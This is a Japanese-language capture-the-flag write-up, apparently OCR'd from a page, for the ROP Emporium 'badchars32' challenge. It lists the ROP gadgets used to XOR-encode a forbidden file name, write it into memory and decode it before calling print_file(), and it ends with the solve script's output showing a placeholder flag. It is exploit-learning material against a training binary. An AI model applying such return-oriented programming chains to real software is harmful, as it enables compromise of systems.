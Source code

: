```
					puts("thank you")
					return
				}
			}
		}
		
	} while(*(ebp-0x34) < *(ebp-0x38)))
}
```

```
badchars are: 'x', 'g', 'a', '.'
```

とあるので、どうにかここらへんの文字を使わずに

print_file()に"flag.txt"を渡したい。

なんかDescriptionにMoar XORとあるので、最初にxorした値を入力すれば良さそう？

とりあえず、今までと同じように、ropgadgetでメモリに値を入れられるやつを探すようにする

使えるやつがあった

```
0x0804854f : mov dword ptr [edi], esi ; ret
0x080485b9 : pop esi ; pop edi ; pop ebp ; ret
```

xorしてもう一回、xorすればいい感じに戻るのでそれをしたあげようか。

いい感じのやつがあった。

```
0x08048547 : xor byte ptr [ebp], bl ; ret
0x080485bb : pop ebp ; ret
0x0804839d : pop ebx ; ret
```



無事行けたぜよ

```
❯ python3 solve.py
[*] '/mnt/nvme0n1p7/security/rop-emporium/badchars32/badchars32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  b'.'
[+] Starting local process './badchars32': pid 19951
[+] Receiving all data: Done (109B)
[*] Process './badchars32' stopped with exit code -11 (SIGSEGV) (pid 19951)
b"badchars by ROP Emporium\nx86\n\nbadchars are: 'x', 'g', 'a', '.'\n> Thank you!\nROPE{a_placeholder_32byte_flag!}\n"
```
